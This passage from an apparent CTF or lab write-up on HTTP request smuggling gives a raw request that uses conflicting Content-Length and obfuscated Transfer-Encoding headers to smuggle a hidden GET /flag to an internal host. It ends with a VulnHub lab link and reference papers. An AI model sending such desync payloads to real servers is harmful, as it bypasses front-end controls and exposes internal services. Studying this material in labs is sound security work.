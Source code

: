 **If you send below request to the CTF server. which gives the response with the flag.**


```bash
GET /a HTTP/1.1
Host: 192.168.0.109
Content-Length: 4
Transfer-Encoding: chunkedasd

2c
GET /flag HTTP/1.1
Host: 127.0.0.1:8080


0

GET /a HTTP/1.1
Host: 127.0.0.1:8080
```

**- [LAB - HTTP request smuggling](https://www.vulnhub.com/entry/finithicdeo-1,636/)**

## References:

- [medium](https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f)
- [cgisecurity](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf)
- [blackhat](https://i.blackhat.com/USA-19/Wednesday/us-19-Kettle-HTTP-Desync-Attacks-Smashing-Into-The-Cell-Next-Door.pdf)
- [YouTube](https://www.youtube.com/watch?v=_A04msdplXs&t=904s)